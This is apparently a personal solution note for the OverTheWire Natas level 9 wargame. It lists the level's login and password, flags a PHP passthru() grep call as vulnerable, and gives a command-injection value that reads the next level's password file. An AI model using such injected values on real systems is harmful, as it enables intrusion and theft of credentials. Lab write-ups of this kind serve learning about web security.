 Challenge page is <a href="http://www.overthewire.org/wargames/natas/natas9.shtml">HERE</a>.

<<CHALLENGE_CONTENT
Level 9

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

CHALLENGE_CONTENT

Password for this level (from last level)
	- username: natas9
	- password: sQ6DKR8ICwqDMTd48lQlJfbF1q9B3edT

Comment by me:
	- Vulnerability at this line 
	passthru("grep -i $key dictionary.txt");
	- as says in the first page 'http://www.overthewire.org/wargames/natas/',
		The password files are at /etc/natas_webpass/
	- try ';cat /etc/natas_webpass/natas10;'

